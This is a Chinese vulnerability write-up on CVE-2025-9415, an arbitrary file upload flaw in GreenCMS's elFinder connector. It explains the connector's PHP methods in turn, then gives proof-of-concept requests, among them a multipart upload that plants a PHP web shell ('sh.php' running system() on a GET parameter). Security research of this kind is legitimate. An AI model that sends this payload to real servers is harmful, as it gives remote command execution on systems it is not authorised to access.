# CVE-2025-9415 漏洞分析：GreenCMS任意文件上传（Upload）及其他漏洞研究-第二部分-先知社区

> **来源**: https://xz.aliyun.com/news/19283  
> **文章ID**: 19283

---

连接上次漏洞分析

​

​

##### open方法

```
protected function open($args) {
    $target = $args['target'];
    $init   = !empty($args['init']);
    $tree   = !empty($args['tree']);
    $volume = $this->volume($target);
    $cwd    = $volume ? $volume->dir($target, true) : false;
    $hash   = $init ? 'default folder' : '#'.$target;

    // on init request we can get invalid dir hash -
    // dir which can not be opened now, but remembered by client,
    // so open default dir
    if ((!$cwd || !$cwd['read']) && $init) {
       $volume = $this->default;
       $cwd    = $volume->dir($volume->defaultPath(), true);
    }
    
    if (!$cwd) {
       return array('error' => $this->error(self::ERROR_OPEN, $hash, self::ERROR_DIR_NOT_FOUND));
    }
    if (!$cwd['read']) {
       return array('error' => $this->error(self::ERROR_OPEN, $hash, self::ERROR_PERM_DENIED));
    }

    $files = array();

    // get folders trees
    if ($args['tree']) {
       foreach ($this->volumes as $id => $v) {
          if (($tree = $v->tree('', 0, $cwd['hash'])) != false) {
             $files = array_merge($files, $tree);
          }
       }
    }

    // get current working directory files list and add to $files if not exists in it
    if (($ls = $volume->scandir($cwd['hash'])) === false) {
       return array('error' => $this->error(self::ERROR_OPEN, $cwd['name'], $volume->error()));
    }
    
    foreach ($ls as $file) {
       if (!in_array($file, $files)) {
          $files[] = $file;
       }
    }
    
    $result = array(
       'cwd'     => $cwd,
       'options' => $volume->options($cwd['hash']),
       'files'   => $files
    );

    if (!empty($args['init'])) {
       $result['api'] = $this->version;
       $result['uplMaxSize'] = ini_get('upload_max_filesize');
       $result['netDrivers'] = array_keys(self::$netDrivers);
    }
    
    return $result;
}
```

这个是核心功能之一，主要目的是打开指定目录并返回其内容

###### 1.参数解析和初始化

```
protected function open($args) {
    $target = $args['target'];
    $init   = !empty($args['init']);
    $tree   = !empty($args['tree']);
    $volume = $this->volume($target);
    $cwd    = $volume ? $volume->dir($target, true) : false;
    $hash   = $init ? 'default folder' : '#'.$target;
```

`$target` - 要打开的目录哈希，`$init` - 是否为首次初始化请求，`$tree` - 是否返回目录树；根据目标哈希找到对应的存储卷，获取目录的详细信息（名称、权限、子项数量等），hash用于错误消息的友好显示。

###### 2.初始化请求的容错处理

```
if ((!$cwd || !$cwd['read']) && $init) {
    $volume = $this->default;
    $cwd    = $volume->dir($volume->defaultPath(), true);
}
```

客户端的目录可能失效（被删除，权限变更等），使用默认卷的默认路径，确保初始化时总有可显示的目录

###### 3.错误检查

```
if (!$cwd) {
    return array('error' => $this->error(self::ERROR_OPEN, $hash, self::ERROR_DIR_NOT_FOUND));
}
if (!$cwd['read']) {
    return array('error' => $this->error(self::ERROR_OPEN, $hash, self::ERROR_PERM_DENIED));
}
```

要确保目录存在、确保有读取权限，最后使用同一的错误格式

###### 4.目录树获取（如果请求）

```
$files = array();

// get folders trees
if ($args['tree']) {
    foreach ($this->volumes as $id => $v) {
       if (($tree = $v->tree('', 0, $cwd['hash'])) != false) {
          $files = array_merge($files, $tree);
       }
    }
}
```

首先遍历所有存储卷获取目录树，然后返回完整的目录层次结构；`''` - 从根目录开始，`0` - 无限深度，`$cwd['hash']` - 当前目录哈希（用于高亮显示）

###### 5.当前目录内容获取

```
if (($ls = $volume->scandir($cwd['hash'])) === false) {
    return array('error' => $this->error(self::ERROR_OPEN, $cwd['name'], $volume->error()));
}

foreach ($ls as $file) {
    if (!in_array($file, $files)) {
       $files[] = $file;
    }
}
```

获取当前目录下的所有文件和子目录，确保树形结构中的项目不会重复显示

###### 6.拼接

```
$result = array(
    'cwd'     => $cwd,  //当前目录信息
    'options' => $volume->options($cwd['hash']),  //目录操作
    'files'   => $files  //文件列表
);
```

当前的目录信息：名称、路径、权限、文件数量等，该目录支持的操作（上传、创建、删除）

###### 7.初始化信息

```
if (!empty($args['init'])) {
       $result['api'] = $this->version;
       $result['uplMaxSize'] = ini_get('upload_max_filesize');
       $result['netDrivers'] = array_keys(self::$netDrivers);
    }
    
    return $result;
}
```

客户端兼容性检查，PHP配置的最大上传文件大小

###### 拓展：数据结构

在上面说到目录操作，获取目录信息的两个参数详细情况  
**$cwd**  
在**elFinder.class.php**中这里是个起点，调用了**dir**跟踪这个方法

```
protected function open($args) {
    $target = $args['target'];
    $init   = !empty($args['init']);
    $tree   = !empty($args['tree']);
    $volume = $this->volume($target);
    $cwd    = $volume ? $volume->dir($target, true) : false;
    $hash   = $init ? 'default folder' : '#'.$target;
```

找到**elFinderVolumeDriver.class.php**中的**dir**调用了**file**继续跟踪

```
public function dir($hash, $resolveLink=false) {
    if (($dir = $this->file($hash)) == false) {
       return $this->setError(elFinder::ERROR_DIR_NOT_FOUND);
    }

    if ($resolveLink && !empty($dir['thash'])) {
       $dir = $this->file($dir['thash']);
    }
    
    return $dir && $dir['mime'] == 'directory' && empty($dir['hidden']) 
       ? $dir 
       : $this->setError(elFinder::ERROR_NOT_DIR);
}
```

找到**elFinderVolumeDriver.class.php**中的file调用了**stat**继续跟踪

```
public function file($hash) {
    $path = $this->decode($hash);
    
    return ($file = $this->stat($path)) ? $file : $this->setError(elFinder::ERROR_FILE_NOT_FOUND);
    
    if (($file = $this->stat($path)) != false) {
       if ($realpath) {
          $file['realpath'] = $path;
       }
       return $file;
    }
    return $this->setError(elFinder::ERROR_FILE_NOT_FOUND);
}
```

找到**elFinderVolumeDriver.class.php**中的**stat**调用了**\_stat**继续跟踪

```
protected function stat($path) {
    if ($path === false) {
       return false;
    }
    return isset($this->cache[$path])
       ? $this->cache[$path]
       : $this->updateCache($path, $this->_stat($path));
}
```

最终在**elFinderVolumeLocalFileSystem.class.php**文件中的**\_stat**方法中记录了基础文件的权限属性等等

```
protected function _stat($path) {
    $stat = array();

    if (!file_exists($path)) {
       return $stat;
    }

    //Verifies the given path is the root or is inside the root. Prevents directory traveral.
    if (!$this->aroot) {
       // for Inheritance class ( not calling parent::configure() )
       $this->aroot = realpath($this->root);
    }
    if (!$this->_inpath($path, $this->aroot)) {
       return $stat;
    }

    if ($path != $this->root && is_link($path)) {
       if (($target = $this->readlink($path)) == false 
       || $target == $path) {
          $stat['mime']  = 'symlink-broken';
          $stat['read']  = false;
          $stat['write'] = false;
          $stat['size']  = 0;
          return $stat;
       }
       $stat['alias']  = $this->_path($target);
       $stat['target'] = $target;
       $path  = $target;
       $lstat = lstat($path);
       $size  = $lstat['size'];
    } else {
       $size = @filesize($path);
    }
    
    $dir = is_dir($path);
    
    $stat['mime']  = $dir ? 'directory' : $this->mimetype($path);
    $stat['ts']    = filemtime($path);
    $stat['read']  = is_readable($path);
    $stat['write'] = is_writable($path);
    if ($stat['read']) {
       $stat['size'] = $dir ? 0 : $size;
    }
    
    return $stat;
}
```

**$options**

在**elFinderVolumeDriver.class.php**这个文件中

```
protected $options = array(
    'id'              => '',
    // root directory path
    'path'            => '',
    // open this path on initial request instead of root path
    'startPath'       => '',
    // how many subdirs levels return per request
    'treeDeep'        => 1,
    // root url, not set to disable sending URL to client (replacement for old "fileURL" option)
    'URL'             => '',
    // directory separator. required by client to show paths correctly
    'separator'       => DIRECTORY_SEPARATOR,
    ......
```

##### ls方法

```
protected function ls($args) {
    $target = $args['target'];
    
    if (($volume = $this->volume($target)) == false
    || ($list = $volume->ls($target)) === false) {
       return array('error' => $this->error(self::ERROR_OPEN, '#'.$target));
    }
    return array('list' => $list);
}
```

获取目标的参数，然后进行对象验证、调用列表方法，最后是错误处理

###### volume方法的工作方式

```
protected function volume($hash) {
    foreach ($this->volumes as $id => $v) {
       if (strpos(''.$hash, $id) === 0) {
          return $this->volumes[$id];
       } 
    }
    return false;
}
```

遍历所有卷（$this->volumes数组，键为卷ID，值为卷实例），检查给定的哈希值是否以卷ID开头（注意：将哈希值转换为字符串进行比较，如果找到匹配的卷，则返回该卷实例，如果没有找到，返回false。

注意：代码中的 `strpos(''.$hash, $id) === 0`，这里将$hash转换成字符串（用''连接的方式），然后检查$id是否出现在开头（位置0）

##### tree方法

```
protected function tree($args) {
    $target = $args['target'];
    
    if (($volume = $this->volume($target)) == false
    || ($tree = $volume->tree($target)) == false) {
       return array('error' => $this->error(self::ERROR_OPEN, '#'.$target));
    }

    return array('tree' => $tree);
}
```

这是一个获取目录树结构的方法，目的是返回指定目录的字目录树，通常用于构建文件管理器的树状导航面板。

获取目标目录的哈希标识符，通过volume方法根据哈希前缀找到对应的卷对象，然后调用卷对象中的tree方法

###### 卷对象中tree方法

```
public function tree($hash='', $deep=0, $exclude='') {
    $path = $hash ? $this->decode($hash) : $this->root;
    
    if (($dir = $this->stat($path)) == false || $dir['mime'] != 'directory') {
       return false;
    }
    
    $dirs = $this->gettree($path, $deep > 0 ? $deep -1 : $this->treeDeep-1, $exclude ? $this->decode($exclude) : null);
    array_unshift($dirs, $dir);
    return $dirs;
}
```

第一行：`$hash`：目录的哈希值，默认为空（表示根目录），`$deep`：要获取的深度，默认为0（可能表示默认深度或无限深度，但实际由`$this->treeDeep`控制），`$exclude`：排除的目录（哈希值），默认为空。

第二行：解析路径，如果提供哈希，则解码为实际路径；否则使用卷的根目录。

第四行到第六行：检查路径有效性，使用stat方法获取路径的信息，如果不存在或不是路径，则返回false。

第八行：获取目录树，调用gettree方法递归获取目录树，如果`$deep`大于0，则使用`$deep-1`；否则使用`$this->treeDeep-1`（`$this->treeDeep`是卷的配置项，表示默认深度）。

第九行：添加当前目录，将当前目录的信息插入到目录树数组的开头。

第十一行：返回目录树，这个方法返回的目录树包括当前目录（由`array_unshift`添加）和其子目录（由`gettree`获取），深度控制：`$deep`参数和卷的配置项`treeDeep`共同决定递归深度。

##### parents方法

```
protected function parents($args) {
    $target = $args['target'];
    
    if (($volume = $this->volume($target)) == false
    || ($tree = $volume->parents($target)) == false) {
       return array('error' => $this->error(self::ERROR_OPEN, '#'.$target));
    }

    return array('tree' => $tree);
}
```

第二行：参数提取，获取目标目录的哈希标识符

第四行第五行：卷对象查找和调用，跟前面方法一样，都是找到对应的卷并调用方法

这个方法是文件管理器路径导航的核心。

###### 注意：

**ls方法**：返回平面列表（当前目录的所以文件和文件夹）；无嵌套结构（单层列表）；用于文件列表（主内容区域显示）；包含文件（返回文件和目录）

**tree方法**：返回目录结构（专注于文件夹层级关系）；递归结构（包含子目录的嵌套数据）；用于树状导航（构建侧边栏目录树）；可能限制深度（避免返回过深的目录结构）

**parents方法**：线性路径（返回从根目录到当前目录的直线路径）；不包含兄弟目录（只包含路径上的目录，不包含其他分支）；用于路径导航（构建面包屑或路径显示）；顺序重要（保持从根到叶的顺序）

##### tmb方法

```
protected function tmb($args) {
    
    $result  = array('images' => array());
    $targets = $args['targets'];
    
    foreach ($targets as $target) {
       if (($volume = $this->volume($target)) != false
       && (($tmb = $volume->tmb($target)) != false)) {
          $result['images'][$target] = $tmb;
       }
    }
    return $result;
}
```

###### 1.初始化结果结构

`$result = array('images' => array());`

创建爱你标准化的返回结构，包含images键来存储缩略图信息

###### 2.获取目标文件列表

`$targets = $args['targets'];`

接收一个文件哈希数组，支持批量处理多个文件

###### 3.遍历处理每个文件

```
foreach ($targets as $target) {
    if (($volume = $this->volume($target)) != false
    && (($tmb = $volume->tmb($target)) != false)) {
       $result['images'][$target] = $tmb;
    }
}
```

找到文件对应的卷对象，调用卷对象tmb方法获取缩略图，如果成功获取，将结果存入images数组

这个方法是文件管理器缩略图功能的核心

##### mkdir方法

```
protected function mkdir($args) {
    $target = $args['target'];
    $name   = $args['name'];
    
    if (($volume = $this->volume($target)) == false) {
       return array('error' => $this->error(self::ERROR_MKDIR, $name, self::ERROR_TRGDIR_NOT_FOUND, '#'.$target));
    }

    return ($dir = $volume->mkdir($target, $name)) == false
       ? array('error' => $this->error(self::ERROR_MKDIR, $name, $volume->error()))
       : array('added' => array($dir));
}
```

###### 1.参数提取

```
$target = $args['target'];  //父目录的哈希
$name   = $args['name'];  //要创建的新目录名称
```

###### 2.卷对象验证

```
if (($volume = $this->volume($target)) == false) {
    return array('error' => $this->error(self::ERROR_MKDIR, $name, self::ERROR_TRGDIR_NOT_FOUND, '#'.$target));
}
```

`self::ERROR_MKDIR` - 操作类型（创建目录）；`$name` - 目标目录名；`self::ERROR_TRGDIR_NOT_FOUND` - 具体错误原因（目标目录不存在）；`'#'.$target` - 目标目录标识符

###### 3.调用卷的创建目录方法

```
return ($dir = $volume->mkdir($target, $name)) == false
    ? array('error' => $this->error(self::ERROR_MKDIR, $name, $volume->error()))
    : array('added' => array($dir));
```

这里面使用了三元运算符，成功：`$volume->mkdir()` 返回新目录信息 → `array('added' => array($dir))`；失败：返回 `false` → `array('error' => $this->error(self::ERROR_MKDIR, $name, $volume->error()))`

这个方法是文件管理器目录管理的核心功能（创建新目录）

##### mkfile方法

```
protected function mkfile($args) {
    $target = $args['target'];
    $name   = $args['name'];
    
    if (($volume = $this->volume($target)) == false) {
       return array('error' => $this->error(self::ERROR_MKFILE, $name, self::ERROR_TRGDIR_NOT_FOUND, '#'.$target));
    }

    return ($file = $volume->mkfile($target, $args['name'])) == false
       ? array('error' => $this->error(self::ERROR_MKFILE, $name, $volume->error()))
       : array('added' => array($file));
}
```

这个方法与上面的创建目录方法逻辑一样

##### upload方法

```
protected function upload($args) {
    $target = $args['target'];
    $volume = $this->volume($target);
    $files  = isset($args['FILES']['upload']) && is_array($args['FILES']['upload']) ? $args['FILES']['upload'] : array();
    $result = array('added' => array(), 'header' => empty($args['html']) ? false : 'Content-Type: text/html; charset=utf-8');
    
    if (empty($files)) {
       return array('error' => $this->error(self::ERROR_UPLOAD, self::ERROR_UPLOAD_NO_FILES), 'header' => $header);
    }
    
    if (!$volume) {
       return array('error' => $this->error(self::ERROR_UPLOAD, self::ERROR_TRGDIR_NOT_FOUND, '#'.$target), 'header' => $header);
    }
    
    foreach ($files['name'] as $i => $name) {
       if (($error = $files['error'][$i]) > 0) {           
          $result['warning'] = $this->error(self::ERROR_UPLOAD_FILE, $name, $error == UPLOAD_ERR_INI_SIZE || $error == UPLOAD_ERR_FORM_SIZE ? self::ERROR_UPLOAD_FILE_SIZE : self::ERROR_UPLOAD_TRANSFER);
          $this->uploadDebug = 'Upload error code: '.$error;
          break;
       }
       
       $tmpname = $files['tmp_name'][$i];
       
       if (($fp = fopen($tmpname, 'rb')) == false) {
          $result['warning'] = $this->error(self::ERROR_UPLOAD_FILE, $name, self::ERROR_UPLOAD_TRANSFER);
          $this->uploadDebug = 'Upload error: unable open tmp file';
          break;
       }
       
       if (($file = $volume->upload($fp, $target, $name, $tmpname)) === false) {
          $result['warning'] = $this->error(self::ERROR_UPLOAD_FILE, $name, $volume->error());
          fclose($fp);
          break;
       }
       
       fclose($fp);
       $result['added'][] = $file;
    }
    
    return $result;
}
```

###### 1.参数提取和初始化

```
$target = $args['target'];
$volume = $this->volume($target);
$files  = isset($args['FILES']['upload']) && is_array($args['FILES']['upload']) ? $args['FILES']['upload'] : array();
$result = array('added' => array(), 'header' => empty($args['html']) ? false : 'Content-Type: text/html; charset=utf-8');
```

首先从参数中获取目标路径，然后调用volume方法获取目标卷对象（存储位置），获取之后检查并获取上传的文件数组，如果没有文件则被设为空数组，最后初始化结果数组，包含：added：成功上传的文件列表；header：响应头信息。

###### 2.错误检查

2.1

```
if (empty($files)) {
    return array('error' => $this->error(self::ERROR_UPLOAD, self::ERROR_UPLOAD_NO_FILES), 'header' => $header);
}
```

检查是否有文件被上传，没有则返回错误

2.2

```
if (!$volume) {
    return array('error' => $this->error(self::ERROR_UPLOAD, self::ERROR_TRGDIR_NOT_FOUND, '#'.$target), 'header' => $header);
}
```

检查目标是否存在，不存在则返回错误

###### 3.文件处理

```
foreach ($files['name'] as $i => $name) {
    if (($error = $files['error'][$i]) > 0) {           
       $result['warning'] = $this->error(self::ERROR_UPLOAD_FILE, $name, $error == UPLOAD_ERR_INI_SIZE || $error == UPLOAD_ERR_FORM_SIZE ? self::ERROR_UPLOAD_FILE_SIZE : self::ERROR_UPLOAD_TRANSFER);
       $this->uploadDebug = 'Upload error code: '.$error;
       break;
    }
    
    $tmpname = $files['tmp_name'][$i];
    
    if (($fp = fopen($tmpname, 'rb')) == false) {
       $result['warning'] = $this->error(self::ERROR_UPLOAD_FILE, $name, self::ERROR_UPLOAD_TRANSFER);
       $this->uploadDebug = 'Upload error: unable open tmp file';
       break;
    }
    
    if (($file = $volume->upload($fp, $target, $name, $tmpname)) === false) {
       $result['warning'] = $this->error(self::ERROR_UPLOAD_FILE, $name, $volume->error());
       fclose($fp);
       break;
    }
    
    fclose($fp);
    $result['added'][] = $file;
}
```

第一行：遍历所有上传的文件；

第二行到第六行：检查文件上传错误码，如果是文件大小错误（INI大小或表单大小）则返回错误，记录调试信息并跳出循环；

第八行：获取临时文件名；

第十行到第十四行：尝试以二进制只读模式打开临时文件，如果打开失败，记录错误并跳出循环；

第十六行到第二十行：调用卷对象的upload方法尝试实际上传，如果上传失败，记录错误，关闭文件并跳出循环；

第二十二行到第二十三行：关闭文件，将成功上传的文件信息添加到结果中。

##### Upload方法拓展

上面提到了另一个upload（调用卷里面的）

位置在Extend\Elfinder\php\elFinderVolumeDriver.class.php中

```
public function upload($fp, $dst, $name, $tmpname) {
    if ($this->commandDisabled('upload')) {
       return $this->setError(elFinder::ERROR_PERM_DENIED);
    }
    
    if (($dir = $this->dir($dst)) == false) {
       return $this->setError(elFinder::ERROR_TRGDIR_NOT_FOUND, '#'.$dst);
    }

    if (!$dir['write']) {
       return $this->setError(elFinder::ERROR_PERM_DENIED);
    }
    
    if (!$this->nameAccepted($name)) {
       return $this->setError(elFinder::ERROR_INVALID_NAME);
    }
    
    $mime = $this->mimetype($this->mimeDetect == 'internal' ? $name : $tmpname, $name); 
    if ($mime == 'unknown' && $this->mimeDetect == 'internal') {
       $mime = elFinderVolumeDriver::mimetypeInternalDetect($name);
    }

    // logic based on http://httpd.apache.org/docs/2.2/mod/mod_authz_host.html#order
    $allow  = $this->mimeAccepted($mime, $this->uploadAllow, null);
    $deny   = $this->mimeAccepted($mime, $this->uploadDeny,  null);
    $upload = true; // default to allow
    if (strtolower($this->uploadOrder[0]) == 'allow') { // array('allow', 'deny'), default is to 'deny'
       $upload = false; // default is deny
       if (!$deny && ($allow === true)) { // match only allow
          $upload = true;
       }// else (both match | no match | match only deny) { deny }
    } else { // array('deny', 'allow'), default is to 'allow' - this is the default rule
       $upload = true; // default is allow
       if (($deny === true) && !$allow) { // match only deny
          $upload = false;
       } // else (both match | no match | match only allow) { allow }
    }
    if (!$upload) {
       return $this->setError(elFinder::ERROR_UPLOAD_FILE_MIME);
    }

    if ($this->uploadMaxSize > 0 && filesize($tmpname) > $this->uploadMaxSize) {
       return $this->setError(elFinder::ERROR_UPLOAD_FILE_SIZE);
    }

    $dstpath = $this->decode($dst);
    $test    = $this->_joinPath($dstpath, $name);
    
    $file = $this->stat($test);
    $this->clearcache();
    
    if ($file) { // file exists
       if ($this->options['uploadOverwrite']) {
          if (!$file['write']) {
             return $this->setError(elFinder::ERROR_PERM_DENIED);
          } elseif ($file['mime'] == 'directory') {
             return $this->setError(elFinder::ERROR_NOT_REPLACE, $name);
          } 
          $this->remove($test);
       } else {
          $name = $this->uniqueName($dstpath, $name, '-', false);
       }
    }
    
    $stat = array(
       'mime'   => $mime, 
       'width'  => 0, 
       'height' => 0, 
       'size'   => filesize($tmpname));
    
    // $w = $h = 0;
    if (strpos($mime, 'image') === 0 && ($s = getimagesize($tmpname))) {
       $stat['width'] = $s[0];
       $stat['height'] = $s[1];
    }
    // $this->clearcache();
    if (($path = $this->_save($fp, $dstpath, $name, $stat)) == false) {
       return false;
    }
    
    
    return $this->stat($path);
}
```

###### 1.方法签名和权限检查

```
if ($this->commandDisabled('upload')) {
    return $this->setError(elFinder::ERROR_PERM_DENIED);
}
```

检查上传功能是否被禁用

###### 2.目标目录验证

```
if (($dir = $this->dir($dst)) == false) {
    return $this->setError(elFinder::ERROR_TRGDIR_NOT_FOUND, '#'.$dst);
}

if (!$dir['write']) {
    return $this->setError(elFinder::ERROR_PERM_DENIED);
}
```

验证目标目录是否存在，检查目录是否有写权限

###### 3.文件名验证

```
if (!$this->nameAccepted($name)) {
    return $this->setError(elFinder::ERROR_INVALID_NAME);
}
```

检查文件名是否合法（不含非法字符等）

###### 4.MIME类型检测和验证

```
$mime = $this->mimetype($this->mimeDetect == 'internal' ? $name : $tmpname, $name); 
if ($mime == 'unknown' && $this->mimeDetect == 'internal') {
    $mime = elFinderVolumeDriver::mimetypeInternalDetect($name);
}
```

检查文件的MIME类型，如果使用内部检测器且检测失败，则使用备用检测方法

```
// logic based on http://httpd.apache.org/docs/2.2/mod/mod_authz_host.html#order
		$allow  = $this->mimeAccepted($mime, $this->uploadAllow, null);
		$deny   = $this->mimeAccepted($mime, $this->uploadDeny,  null);
		$upload = true; // default to allow
```

基于Apache的规则顺序进行MIME类型验证，检查是否在允许列表和拒绝列表中

```
if (strtolower($this->uploadOrder[0]) == 'allow') { // array('allow', 'deny'), default is to 'deny'
    $upload = false; // default is deny
    if (!$deny && ($allow === true)) { // match only allow
       $upload = true;
    }// else (both match | no match | match only deny) { deny }
} else { // array('deny', 'allow'), default is to 'allow' - this is the default rule
    $upload = true; // default is allow
    if (($deny === true) && !$allow) { // match only deny
       $upload = false;
    } // else (both match | no match | match only allow) { allow }
}
if (!$upload) {
    return $this->setError(elFinder::ERROR_UPLOAD_FILE_MIME);
}
```

根据配置的规则顺序决定是否上传，默认规则是deny，allow（先拒绝后允许）

###### 5.文件大小检查

```
if ($this->uploadMaxSize > 0 && filesize($tmpname) > $this->uploadMaxSize) {
    return $this->setError(elFinder::ERROR_UPLOAD_FILE_SIZE);
}
```

检查文件大小是否超过限制

###### 6.处理已存在文件

```
$dstpath = $this->decode($dst);
$test    = $this->_joinPath($dstpath, $name);

$file = $this->stat($test);
$this->clearcache();

if ($file) { // file exists
    if ($this->options['uploadOverwrite']) {
       if (!$file['write']) {
          return $this->setError(elFinder::ERROR_PERM_DENIED);
       } elseif ($file['mime'] == 'directory') {
          return $this->setError(elFinder::ERROR_NOT_REPLACE, $name);
       } 
       $this->remove($test);
    } else {
       $name = $this->uniqueName($dstpath, $name, '-', false);
    }
}
```

解码目标路径并构造完整文件路径，检查文件是否已存在，如果存在且配置为覆盖，则删除原文件，如果配置不覆盖，则生成唯一文件名

###### 7.收集文件信息并保存

```
$stat = array(
    'mime'   => $mime, 
    'width'  => 0, 
    'height' => 0, 
    'size'   => filesize($tmpname));
```

准备文件元数据

```
if (strpos($mime, 'image') === 0 && ($s = getimagesize($tmpname))) {
    $stat['width'] = $s[0];
    $stat['height'] = $s[1];
}
```

如果是图片文件，获取图片尺寸

```
if (($path = $this->_save($fp, $dstpath, $name, $stat)) == false) {
       return false;
    }
    
    
    return $this->stat($path);
}
```

调用\_save方法实际保存文件

返回保存后文件的统计信息。

可以看到两个upload方法都没有去过滤敏感信息，尤其是调用卷里面的upload方法

# 漏洞验证

## Upload漏洞验证

首先登录后台然后

查询目录

GET /index.php?m=admin&c=media&a=fileconnect&cmd=open&init=1&tree=1





这里有一条upload上传信息

然后根据这条信息去构造上传的请求

从最开始的定义中知道有几个必要参数

`'upload' => array('target' => true, 'FILES' => true, 'mimes' => false, 'html' => false),`

也就是cmd=upload&target=xxx

`https://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect`

```
GET /index.php?m=admin&c=media&a=fileconnect HTTP/1.1
Host: xxxx.xxxx.xxxx.xxxx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABC123def456
Content-Length: 406
Cookie: PHPSESSID=ca1vuem3jfbhfv3ouns1hhpj22
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Connection: close

------WebKitFormBoundaryABC123def456
Content-Disposition: form-data; name="cmd"

upload
------WebKitFormBoundaryABC123def456
Content-Disposition: form-data; name="target"

l1_XA
------WebKitFormBoundaryABC123def456
Content-Disposition: form-data; name="upload[]"; filename="sh.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryABC123def456--

```



上面的边界是可以自己生成的

```
#!/usr/bin/env python3
import random
import string
import uuid
import time


def generate_boundary(style='webkit'):
    """
    自动生成multipart/form-data边界字符串

    参数:
        style: 边界字符串风格，可选值:
            'webkit' - WebKit风格 (默认)
            'uuid' - UUID风格
            'rfc' - RFC标准风格
            'timestamp' - 时间戳风格
            'hex' - 十六进制风格
            'simple' - 简单随机风格

    返回:
        边界字符串
    """

    if style == 'webkit':
        # WebKit浏览器风格
        return "----WebKitFormBoundary" + ''.join(random.choices(string.ascii_letters + string.digits, k=16))

    elif style == 'uuid':
        # UUID风格
        return f"----FormBoundary{uuid.uuid4().hex[:16]}"

    elif style == 'rfc':
        # RFC标准风格
        chars = string.ascii_letters + string.digits + "_-"
        random_part = ''.join(random.choices(chars, k=30))
        return f"----Boundary{random_part}"

    elif style == 'timestamp':
        # 时间戳风格
        timestamp = int(time.time() * 1000) % 1000000
        random_part = ''.join(random.choices(string.ascii_letters, k=10))
        return f"----Boundary{timestamp}{random_part}"

    elif style == 'hex':
        # 十六进制风格
        hex_chars = string.hexdigits.upper()
        random_hex = ''.join(random.choices(hex_chars, k=16))
        return f"----WebKitFormBoundary{random_hex}"

    elif style == 'simple':
        # 简单随机风格
        return ''.join(random.choices(string.ascii_letters + string.digits, k=30))

    else:
        # 默认使用WebKit风格
        return "----WebKitFormBoundary" + ''.join(random.choices(string.ascii_letters + string.digits, k=16))


# 使用示例
if __name__ == '__main__':
    # 生成一个WebKit风格的边界字符串
    boundary = generate_boundary('webkit')
    print(f"生成的边界字符串: {boundary}")
```

上面是这个编号的漏洞分析，然后还有拓展验证

## ls漏洞验证

根据定义中的必要参数构造paylaod

`'ls' => array('target' => true, 'mimes' => false)`

cmd=ls&target=xxxx

[http://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect&cmd=ls&target=l1\_XA](http://127.0.0.1/index.php?m=admin&c=media&a=fileconnect&cmd=ls&target=l1_XA)



## open漏洞验证

这是查看目录的一个命令

`'open' => array('target' => false, 'tree' => false, 'init' => false, 'mimes' => false)`

cmd=open&init=1&tree=1  
cmd=open&target=xxxx&init=1&tree=1

[http://xxx.xxx.xxx.xxx/index.php?m=admin&c=media&a=fileconnect&cmd=open&init=1&tree=1](http://127.0.0.1/index.php?m=admin&c=media&a=fileconnect&cmd=open&init=1&tree=1)

